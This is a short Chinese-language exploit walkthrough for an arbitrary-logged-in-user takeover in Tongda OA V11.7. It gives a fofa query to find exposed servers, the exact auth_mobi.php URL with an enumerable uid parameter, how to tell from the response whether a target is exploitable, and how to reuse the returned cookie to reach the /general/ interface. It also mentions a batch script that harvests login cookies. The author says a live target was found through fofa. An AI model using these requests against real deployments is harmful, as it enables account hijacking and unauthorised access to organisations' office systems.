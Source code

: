# 1、写在前方
漏洞利用虽然不复杂，但是因为条件限制，有点看脸的赶脚，fofa上第二页才找到一个可利用的，所以吧。。。
# 2、漏洞描述
通达OA V11.7版本存在任意在线用户登录漏洞，只需账号是已登录状态，其他访问者无需账号、密码即可登录该账号。
使用fofa语句搜索该版本的通达OA

```
app="TDXK-通达OA"
```



# 3、漏洞验证
## 3.1、漏洞URL
访问如下URL（重点是URI部分，尤其是uid），更改遍历uid的值（数字），即可实现任意在线用户登录。

```
http://x.x.x.x:port/mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
```



## 3.2、漏洞验证
页面返回为空白，则证明可利用

![](images/31.png)

页面返回RELOGIN，则不能利用

![](images/32.jpg)

若漏洞可利用，则我们已经获取到了登录的cookie

![](images/33.jpg)

# 4、漏洞利用
此时我们将URL改为如下内容（其实改的URI部分），然后访问，发现就已经成功登录了。

```
http://x.x.x.x:port/general/
```

![](images/34.jpg)



# 5、脚本
这个漏洞poc与exp差不多，脚本会返回漏洞URL、可直接登录的cookie，与框架结合可批量。

